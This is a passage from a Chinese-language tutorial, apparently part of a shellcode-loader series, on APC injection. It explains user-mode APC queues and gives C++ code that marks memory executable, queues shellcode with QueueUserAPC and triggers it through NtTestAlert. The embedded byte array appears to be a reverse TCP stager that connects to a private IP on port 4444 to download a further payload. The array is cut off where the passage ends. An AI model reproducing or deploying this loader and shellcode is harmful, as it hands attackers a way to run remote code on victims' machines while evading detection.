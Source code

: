 ```cpp

int main() {

    ResourceLoader();
}
```

​	

# 6.基于APC注入

## 什么是APC队列

异步过程调用（APC）队列是一个与线程关联的队列，用于存储要在该线程上下文中异步执行的函数。操作系统内核会跟踪每个线程的 APC 队列，并在适当的时机触发队列中挂起的函数。APC 队列通常用于实现线程间的异步通信、定时器回调以及异步 I/O 操作。

APC 队列包含两种类型的 APC：

1. 内核模式 APC：由内核代码发起，通常用于处理内核级别的异步操作，如异步 I/O 完成。
2. 用户模式 APC：由用户代码发起，允许用户态应用程序将特定函数插入到线程的 APC 队列中，以便在线程上下文中异步执行



## 实现思路

- 使用 `VirtualProtect` 函数修改 `shellcode` 所在内存区域的保护属性，将其设置为可执行、可读、可写（`PAGE_EXECUTE_READWRITE`），以便执行其中的代码。
- 获取 `NtTestAlert` 函数的地址。这是一个内部函数，无法直接通过函数名调用。`NtTestAlert` 函数用于检查当前线程的 APC 队列。如果队列中有挂起的用户模式 APC 请求，`NtTestAlert` 将触发它们的执行。
- 使用 `QueueUserAPC` 函数向当前线程的 APC 队列添加一个执行 Shellcode 的任务。这将在 `NtTestAlert` 被调用时执行 Shellcode。
- 调用 `NtTestAlert` 函数，触发 APC 队列中的任务执行，实现 Shellcode 的执行



## 实现代码

该代码通过在当前线程的 APC 队列中添加一个执行 Shellcode 的任务，并调用 `NtTestAlert` 函数触发 APC 队列中的任务执行，从而实现了加载并执行 Shellcode 的目的

```cpp
#include <Windows.h>

typedef DWORD(WINAPI* pNtTestAlert)();

unsigned char shellcode[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7"
"\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01"
"\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b"
"\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34"
"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38\xe0\x75"
"\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01"
"\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58"
"\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f\x9b\x68\x02\x00"
"\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74"
"\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
```